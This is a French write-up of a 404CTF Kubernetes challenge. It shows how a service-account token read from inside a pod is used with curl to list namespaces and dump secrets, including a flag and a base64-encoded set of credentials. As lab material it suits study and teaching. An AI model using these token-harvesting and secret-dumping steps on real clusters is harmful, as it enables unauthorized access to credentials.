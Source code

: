 # Les nuages menaçants 1/3

<img alt="énoncé du challenge" src="enonce.png" width=500>

On se connecte sur le serveur.

`kubectl` n'étant pas installé, en alternative, on va essayer d'exploiter l'API REST de K8S pour obtenir des informations sur les éléments déployés sur le cluster.

On affiche les variables d'environnement positionnées, afin de récupérer l'adresse du service K8S :

```bash
root@start:~# printenv
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_SERVICE_PORT=443
HOSTNAME=start
PWD=/root
HOME=/root
KUBERNETES_PORT_443_TCP=tcp://10.43.0.1:443
LS_COLORS=...
TERM=xterm
SHLVL=1
KUBERNETES_PORT_443_TCP_PROTO=tcp
KUBERNETES_PORT_443_TCP_ADDR=10.43.0.1
KUBERNETES_SERVICE_HOST=10.43.0.1
KUBERNETES_PORT=tcp://10.43.0.1:443
KUBERNETES_PORT_443_TCP_PORT=443
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
...
```

L'API est donc accessible via l'URL : https://10.43.0.1/api/v1

Une tentative d'accès au service montre qu'une authentification est nécessaire. Une possibilité est d'utiliser les credentials du serviceaccount du pod. On espère que ceux-ci ont été déployés dans le pod.

```bash
root@start:~# ls /run/secrets/kubernetes.io/serviceaccount
ca.crt  namespace  token
```

Pour s'authentifier, on va donc utiliser le token du serviceaccount :

```bash
root@start:~# TOKEN=$(cat /run/secrets/kubernetes.io/serviceaccount/token)
root@start:~# AUTH="Authorization: Bearer ${TOKEN}"
```

On commence par lister les namespaces déployés sur le cluster :

```bash
root@start:~# URL=https://10.43.0.1/api/v1/namespaces
root@start:~# curl -w'\n' -k -H "$AUTH" $URL
```

On trouve 4 namespaces "standards", plus un 5ème au nom évocateur : `404ctf`

```json
{
  "kind": "NamespaceList",
  "apiVersion": "v1",
  "metadata": {
    "resourceVersion": "1881"
  },
  "items": [
    {
      "metadata": {
        "name": "default",
        ...
      },
      ...
    },
    {
      "metadata": {
        "name": "kube-system",
        ...
      },
      ...
    },
    {
      "metadata": {
        "name": "kube-public",
        ...
      },
      ...
    },
    {
      "metadata": {
        "name": "kube-node-lease",
        ...
      },
      ...
    },
    {
      "metadata": {
        "name": "404ctf",
        ...
      },
      ...
    }
  ]
}

```

Les droits accordés au serviceaccount sont très limités, mais ils permettent néanmoins de récupérer les informations relatives aux secrets (surement suffisant pour résoudre le challenge ?) :

```bash
root@start:~# URL=https://10.43.0.1/api/v1/namespaces/404ctf/secrets
root@start:~# curl -w'\n' -k -H "$AUTH" $URL
```

2 secrets sont déployés, dont un qui s'appelle `flag` :

```json
{
  "kind": "SecretList",
  "apiVersion": "v1",
  "metadata": {
    "resourceVersion": "1918"
  },
  "items": [
    {
      "metadata": {
        "name": "flag",
        "namespace": "404ctf",
        "uid": "b6fd04c8-5a93-4252-8f23-9c5a3c0d85a4",
        "resourceVersion": "477",
        "creationTimestamp": "2023-05-24T22:13:48Z",
        "annotations": {
          "kubectl.kubernetes.io/last-applied-configuration": "{\"apiVersion\":\"v1\",\"data\":{\"flag\":\"NDA0Q1RGe0F0dGVudGlvbl9hdXhfc2VjcmV0cyF9\"},\"kind\":\"Secret\",\"metadata\":{\"annotations\":{},\"name\":\"flag\",\"namespace\":\"404ctf\"},\"type\":\"Opaque\"}\n"
        },
        "managedFields": [
          {
            "manager": "kubectl-client-side-apply",
            "operation": "Update",
            "apiVersion": "v1",
            "time": "2023-05-24T22:13:48Z",
            "fieldsType": "FieldsV1",
            "fieldsV1": {
              "f:data": {
                ".": {},
                "f:flag": {}
              },
              "f:metadata": {
                "f:annotations": {
                  ".": {},
                  "f:kubectl.kubernetes.io/last-applied-configuration": {}
                }
              },
              "f:type": {}
            }
          }
        ]
      },
      "data": {
        "flag": "NDA0Q1RGe0F0dGVudGlvbl9hdXhfc2VjcmV0cyF9"
      },
      "type": "Opaque"
    },
    {
      "metadata": {
        "name": "creds",
        "namespace": "404ctf",
        "uid": "c77fd859-ce65-46ef-8ddd-a6a547a8f0b0",
        "resourceVersion": "478",
        "creationTimestamp": "2023-05-24T22:13:48Z",
        "annotations": {
          "kubectl.kubernetes.io/last-applied-configuration": "{\"apiVersion\":\"v1\",\"data\":{\"password\":\"bGVzX251YWdlcw==\",\"user\":\"cHJvdXN0\"},\"kind\":\"Secret\",\"metadata\":{\"annotations\":{},\"name\":\"creds\",\"namespace\":\"404ctf\"},\"type\":\"Opaque\"}\n"
        },
        "managedFields": [
          {
            "manager": "kubectl-client-side-apply",
            "operation": "Update",
            "apiVersion": "v1",
            "time": "2023-05-24T22:13:48Z",
            "fieldsType": "FieldsV1",
            "fieldsV1": {
              "f:data": {
                ".": {},
                "f:password": {},
                "f:user": {}
              },
              "f:metadata": {
                "f:annotations": {
                  ".": {},
                  "f:kubectl.kubernetes.io/last-applied-configuration": {}
                }
              },
              "f:type": {}
            }
          }
        ]
      },
      "data": {
        "password": "bGVzX251YWdlcw==",
        "user": "cHJvdXN0"
      },
      "type": "Opaque"
    }
  ]
}
```

Les secrets étant de type `Opaque`, les données y sont simplement encodées en base64. Le décodage des données rattachées au secret `flag` permet d'obtenir le flag :

```bash
root@start:~# base64 -d <<< NDA0Q1RGe0F0dGVudGlvbl9hdXhfc2VjcmV0cyF9 && echo
404CTF{Attention_aux_secrets!}
```
